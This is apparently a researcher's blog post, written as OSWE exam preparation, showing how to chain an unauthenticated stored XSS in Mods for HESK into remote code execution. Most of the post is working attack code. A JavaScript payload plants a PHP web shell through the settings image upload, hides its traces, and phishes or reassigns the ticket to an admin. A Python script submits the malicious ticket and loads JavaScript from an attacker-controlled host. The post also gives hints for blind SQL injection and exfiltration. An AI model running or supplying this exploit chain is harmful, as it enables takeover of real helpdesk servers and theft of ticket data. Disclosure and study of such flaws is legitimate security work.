From unauthenticated stored XSS to RCE
Background:
The discovered vulnerabilities resulted in three different CVE's for Mods for HESK (MFH) version 2019.1.0 and down to version 3.1.0 (June 28 2017)
- CVE-2020-13992 :: Multiple stored XSS issues allows remote unauthenticated attacker to abuse a helpdesk user's logged in session
- CVE-2020-13993 :: Multiple blind SQL injection issues allows remote unauthenticated attackers to retrieve information from the database via ticket submission
- CVE-2020-13994 :: A privileged user can achieve code execution on the server because of improper access control of uploaded resources. This might be exploitable in conjunction with CVE-2020-13992
CVE-2020-13992 and CVE-2020-13994 can be chained toghether as you will see in this post.
The path to RCE:
I am sharing this believing it could serve as some extra "material" for the Advanced Web Attacks and Exploitation (AWAE) course and Offensive Security Web Expert (OSWE) exam. I found a lot of similarities with the applications in the AWAE course and therefore believe it would be a nice addition to exam preparation. If you want the most out of this, I suggest you download and install Mods for HESK (MFH) 2019.1.0 yourself, and postpone the reading of this blogpost. Spoiler alert: I go through XSS (CVE-2020-13992) to RCE (CVE-2020-13994) in detail, but I leave the SQL injection (CVE-2020-13993) as an exercise
At one point in time (May/June 2020) I looked into an installation of PHP helpdesk software, HESK 2.8.6 (open source) with "Mods for HESK 2019.1.0" (latest version at that time) installed. Open source is great for security researchers and also hackers. So I downloaded the latest version (2.8.6) of HESK2 and started code review on parts that accepted user-input. After a couple of hours, this did not reveal any vulnerabilities (at least for my eyes). I get the feeling "there is nothing here". I thought to myself that I'm not going to find anything in the mod software, completely forgetting how powerful mods can be in the open source world. They can easily modify core parts of the software.
I Downloaded Mods for HESK 2019.1.0 and went for the install directory. As with the HESK software this also refuses to run unless you remove the install directory after installation, which is great practice in my opinion. I logged in to the admin area to look around - taking the "tour". This is always a good way to start - get familiar with the app you are testing or code-reviewing.
{kind=link}
This is what it looks like when opening up hesk with MFH installed. Well except for the "hello@loco" in the Email field (yes, I am to lazy to edit the screenshot again, sorry). While getting to know the application I logged in with the admin user created at install time.
{kind=link}
After logging in, I quickly found settings page.
 {kind=link}
{kind=link}
In my exploration of the logged-in portions of the app I noticed that the possibility of uploading attachments is enabled by default. In settings I discovered that allowed file extensions for upload was configurable. That is interesting. I also discovered a "show useragent" option within the Helpdesk section (not enabled by default). Hmmm. Further there is a UI colors section part of MFH addon - with image upload support! I wanted a way in so I kept looking at user input, especially where a anonymous user could submit a ticket with file upload. Burp was already enabled and willing, so I logged out of the admin area and submitted a ticket: (disregarding the file upload for now)
 {kind=link}
{kind=link}
I notice 4 fields not present in original HESK. That is interesting. Figuiring screen_resolution_height and screen_resolution_width would not get me anywhere as they are pure integers I focus on latitude and longitude. Although I am somewhat familiar with the HESK software source at this point, I find it quicker and more exciting to test XSS payload through Burp and check the page source where I expect these values to be displayed / used.
<script>alert('latitude')</script>
<script>alert('longitude')</script>
{kind=link}
So that is what I do, I inject both longitude and latitude with the "standard basic" XSS payload. I ship it and response says: Your ticket has been successfully submitted! Ticket ID: Q95-JAY-H8LZ. So far so good, now I will log into the helpdesk and view the ticket.
 {kind=link}
{kind=link}
It always tingles in my stomach when I see this. Well, longitude is injectable, but why didn't the latitude payload fire? Inspecting the page source it is revealed that we actually land directly into JavaScript and there is no need for script tags. The script tags actually broke the latitude injection and the rest of JavaScript after longitude. This is also what devtools and console is telling us:
 {kind=link}
{kind=link}
Let us fix it by chaning payloads to:
1;alert('stored XSS are the best!')
1;alert('but how much space is available?')
{kind=link}
I rip out all cookies (to avoid the $_SESSION['already_submitted'] to ever become set) and ship it!
I get another ticket Q2U-JDN-YXDU! Clicking the ticket in the admin panel...
{kind=link}
{kind=link}
Perfect! It blends in beautifully.
Yes yes, I know what you are thinking, can we steal the session cookie? Nope, not in the latest version of MFH at least. So what CAN we do?
{kind=link}
In my previous research into HESK, I noticed upload attachment functionality. As an admin you can change allowed extensions for attachment upload. Music in hacker ears! Craft XSS to change settings to allow for php file upload, submit ticket with attachment and use XSS in the ticket to determine the filename - then go for it and we have RCE! Always test your train of thought manually before typing up the script to attack. I did and I am glad. Cause there was something very nice lurking in the source:
{kind=link}
No PHP extension for you! Well, should the webserver execute php2, php6 or php7 you are in luck - but that is a conditional we cannot base an attack on. Remember the upload picture functionality in MFH UI addon? I quickly go to the bottom of the settings page and upload a file for Login Box Header image. I selected a cute little PHP file:
<?php echo "Stored XSS is sexy but I really <3 RCE"; ?>
Again, I could read the source to determined if this vector was possible, but I think is so much quicker just using the applications functions to test the first step in this direction, if not successful we would dig into source code.
  {kind=link}
{kind=link}
{kind=link}
As you can see there is nothing stopping me from uploading a PHP file here. Navigating to the login screen, I find the picture, or at least its placeholder. The 'src' attribute reveals the 'backdoor' being put into /cache folder. Opening it in another tabs gives us what every hacker wants, code execution on the webserver.
{kind=link}
Now we know what we want, but how can we achieve it, can we bring the entire JavaScript payload into the database? We run into the hesk databse: mysql -u root and use hesk; then describe hesk_tickets;. This reveals that we have 100 characters to play with in each of longitude and latitude. Well, we could probably get away with that (Psst! User-agent header is vulnerable to XSS too - and its type in DB is TEXT!), but I don't have time for micro-optimizing code although a really enjoy it. We could also base64 code some payload data in either of the visible ticket fields, but that wouldn't be very stealthy...
{kind=link}
We will cross the CSP bypass (for instance by leveraging attachments :D) bridge some other day, for now I will settle with loading an external script. There is a thousand ways to do it, but I went for (localhost works here because I am attacking the webapp installed locally):
1;</script><script src='http://localhost/js/evil.js'/><script>//
Not fan of red lines with text in console window of devtools, I add the comments on the end to comment out the semi-colon not under our control.
Now jQuery is already present, that will make some things easier (at least for me). Crafting the payload within an IIFE (Immediately Invoked Function Expression) waiting for the DOM to load:
(function(){
$(document).ready(function () {
$.get( "/admin/admin_settings.php", function(htmldata) {
var f = $('form[name="form1"]', $(htmldata));
// We will try to upload RCE payload
var fd = new FormData(f[0]);
fd.set('login-box-header', 'image');
var blob = new Blob(["<?php echo shell_exec('id'); ?>"], {
type: 'application/x-php'
});
fd.set('login-box-header-image', blob, 'whateverdontmatter.php'); /* Check it out: https://www.youtube.com/watch?v=w8QH93jWZbk */
$.ajax({
url: $(f).attr('action'),
data: fd,
processData: false,
contentType: false,
type: 'POST',
success: function(data){
// This is incorrect, page returns 200 either way and I am also being lazy with the printout of the backdoor, but this is just a PoC :D
console.log("Seems we were successful, check the door: http://localhost/cache/lbh_login-box-header-image.php");
}
});
// Remember to reset login-box-header to helpdesk-title and save settings again
var reset = new FormData(f[0]);
$.ajax({
url: $(f).attr('action'),
data: reset,
processData: false,
contentType: false,
type: 'POST',
success: function(data){
console.log("Cleanup done...");
}
});
}
});
})()
I noticed that the PHP file is not deleted if I change the setting back. Stealth is offered, as you can see in the script above, we take it. There we have it, a stealthy gh0st exploit resulting in RCE on target webserver! Well, this makes the assumption that this evil ticket lands with the admin user of the helpdesk system. We all know whose mother assumption really is. So let's improve on this.
Imagine the ticket is automatically assigned to a limited user. If that is the case, we can reassign it to an admin user :D. Doing some more research reveals that the send message to other users' page actually seems to list all registered users of the HESK admin area.
{kind=link}
That's helpful, what's more - the userid is exposed as well. Unless someone has messed greatly with the installation of HESK, userid 1 will always be an admin user. It cannot be deleted nor demoted.
Further XSS seems impossible in these fields, but looking at the mail.php $_SESSION['mail']['message'] = hesk_makeURL($_SESSION['mail']['message']); tells us that url's will be Interpreted as links.
Armed with this knowledge, we make our payload request the admin/mail.php page to get the lowest number user in the list (except 0) and either reassign the ticket to admin user if we have sufficient privileges to do so, or otherwise phish the admin user with an intriguing message linking to our poisoned ticket :D.
(function(){
$(document).ready(function () {
var token = 0;
var ticket = "";
var sendIt = function(url, postdata) {
$.post(url,postdata);
return "hey";
};
var parseAdmin = function(htmldata) {
var f = $('form[name="form2"]', $(htmldata));
var u = $(f[0][1]);
var a = [];
$(u[0]).find('option').each(function(i,v) {
if(v.value != 0) { a[v.value] = v.text }
});
if (a[1] != null) {
return 1;
} else {
// We assume that next user that was created after admin has privs...
for (uu in a) {
if(a.hasOwnProperty(uu)) {
return uu;
}
}
}
};
var getMailInfo = function() {
return $.when($.get('/admin/mail.php'));
};
var reAssignPayload = function(reAssignTo) {
data = {
"owner": reAssignTo,
"track": ticket,
"token": token
};
sendIt('/admin/assign_owner.php', data);
}
var sendMessage = function(token, recipient) {
var data = {
"to": recipient,
"subject":"I need your input on this ticket",
"message":"Please read the log for ticket: " + window.location.href + "\n\nWhat do you think?\nThanks.",
"signature":1,
"token":token,
"a":"send"};
sendIt("/admin/mail.php", data)
};
var passThePayload = function() {
getMailInfo().then(function(data) {
console.log("Passing payload to someone important...");
var adminOrnextBestThing = parseAdmin(data);
if ($('#changeOwnerForm').html()) {
// We can assign someone, go for it
console.log("We are allowed to reassign, attempting reassign to admin...");
reAssignPayload(adminOrnextBestThing);
}
else {
// Best we can do is send a phishing message with link to payload
console.log("Reassign denied, we'll go phishing admin with message...");
sendMessage(token, adminOrnextBestThing);
}
});
};
ticket = $('#changePriorityForm input[name="track"]').val();
token = $('#changePriorityForm input[name="token"]').val();
// testing if we can reach settings
$.get( "/admin/admin_settings.php", function(htmldata) {
var f = $('form[name="form1"]', $(htmldata));
if(!f[0]) {
passThePayload();
}
else {
// We get the page, can we submit settings??
$.ajax({
url: $(f).attr('action'),
type: 'POST',
data : $(f).serialize(),
success: function(response){
var error = $('div.alert.alert-danger', $(response));
if(error[0]) {
// There are errors
console.log('There are errors...');
$(error).each(function(i,v) {
var er = $(v).find('a')[0];
if($(er).attr('href') == "index.php") {
console.log('No access to save settings...');
passThePayload();
}
});
}
else {
console.log("Seems we have access to save settings, building backdoor...");
// We will try to upload RCE payload
var fd = new FormData(f[0]);
fd.set('login-box-header', 'image');
var blob = new Blob(["<?php echo shell_exec('id'); ?>"], {
type: 'application/x-php'
});
fd.set('login-box-header-image', blob, 'whateverSTILLdontmatter.php'); /* Check it out: https://www.youtube.com/watch?v=w8QH93jWZbk */
$.ajax({
url: $(f).attr('action'),
data: fd,
processData: false,
contentType: false,
type: 'POST',
success: function(data){
console.log("Seems we were successful, check the door: http://localhost/cache/lbh_login-box-header-image.php");
}
});
// Remember to reset login-box-header to helpdesk-title and save settings again
var reset = new FormData(f[0]);
$.ajax({
url: $(f).attr('action'),
data: reset,
processData: false,
contentType: false,
type: 'POST',
success: function(data){
console.log("Cleanup done...");
}
});
}
}});
}
});
});
})()
Now that's a lot better (except for my coding skills :D). Let's compliment this payload with a python script exploiting the XSS vulnerability:
#!/usr/bin/python
import sys
import requests
def submitEvilTicket(target, payloadlocation):
proxies = {'http': 'http://127.0.0.1:8080'} # Debug
target = "%s/submit_ticket.php?submit=1" % target
data = {
'name': 'loca1gh0st',
'email': 'loca1gh0st@localhost',
'priority': '3',
'subject': 'You have a gh0st in the shell very soon',
'message': 'Duh-duh, duh duh. Who you gonna call? (loca1)gh0st busters!',
'latitude': '1;</script><script src="%s"></script><script>//' % payloadlocation, # Stored XSS up to 100 chars
'longitude': '1', # Stored XSS here to up to 100 chars
'screen_resolution_height': 123, # SQL injection here, not used in this exploit
'screen_resolution_width': 123, # SQL injection here, not used in this exploit
'token': 'whatever',
'category': '1',
'hx': '3',
'hy': ''
}
r = requests.post(target, data=data, proxies=proxies)
res = r.text
if "ticket.php?track=" in res:
print "Ticket submitted, now a user would need to view the ticket:\n"
# If you like you could bs, grep or regex for the Ticket ID, but that's on you
return True
return False
def main():
if len(sys.argv) != 3:
print "(+) usage: %s <targetandpath> <payloadtarget>" % sys.argv[0]
print "(+) eg: %s https://192.168.121.103/hesk http://10.10.10.123/gh0st-inject.js" % sys.argv[0]
sys.argv[0]
sys.exit(-1)
target = sys.argv[1];
payload = sys.argv[2];
if submitEvilTicket(target, payload):
print "(+) We successfully sent a gh0st in the envelope"
print "(+) if target is between version -2019.1.0- and -June 28 2017 Version 3.1.0-"
print "(+) you should expect great success"
else:
print "(-) That failed, check your target path and if they have enabled captcha or equivalent!"
print "(-) If there is captcha involved do this step through you favorite proxy which is Burp!"
if __name__ == "__main__":
main()
So what does it finally look like?
We run the script: python ticketXXs.py http://localhost/ http://localhost/js/evil.js. This is an example with a very limited user that cannot even reassign tickets:
{kind=link}
Limited user opens his newly assigned ticket, javascript executes - cannot assign admin, so phish options is automatically selected:
{kind=link}
Admin user has a new message:
{kind=link}
Admin user clicks the link to the infected ticket:
{kind=link}
Admin has privileges to upload UI image, pwned:
{kind=link}
Remote Code Execution:
{kind=link}
Note that this will not work if the target has some kind of captcha enabled (not enabled by default). But that is just one request for you to send via Burp if need be. At last, remember the screen_resolution_height and screen_resolution_width in submit_ticket.php?
Well, they are actually both vulnerable to SQL injection. We did not need this vulnerability to bypass authentication here. This attack should work on Mods for HESK versions between -2019.1.0- and -June 28 2017 Version 3.1.0- as these are vulnerable to SQL injection, XSS and RCE.
What if RCE is out of the picture? For example in versions below 3.1.0 there are no UI image upload functionality. Well, we can still bypass authentication with session riding. But what if we need to log in as admin user? Here the SQL injection vector becomes interesting. I leave it as an exercise for AWAE students (and anyone else of course) to leverage SQL injection to add admin password hash to a ticket and XSS to exfiltrate the data to build a autologin token for the admin user. A couple of hints: (DM me if you need a push in the right direction)
- Remember that "show useragent" is not enabled by default
- Conditional-based rest for the wicked (SLEEP(X) will work, but that is going to be a whole lot of tickets - poor helpdesk - and poor you if captcha is enabled. Still a valid option if you have no XSS)
- SQL injection needs to result in an INT type, signed.
- You will need to submit at least 6 (please correct me if I am wrong) evil tickets for username and password hash and collect at least one of the ticket ID's
- SQL is very very blind. You should leverage XSS to exfiltrate the data
In closing I would like to say that these vulnerabilities are serious as an attacker can exfiltrate all data on every ticket ever submitted and further reply to these tickets with malicious payloads in form of attachments. The vulnerabilities were reported quickly to the software author which in turn responded promptly and professionally. I would strongly recommend users of this software to update to the latest version of MFH - Mods for HESK and if possible, make the transition into the original HESK as the MFH is no longer maintained.
Good luck if OSWE exam preparation brought you here and happy hunting!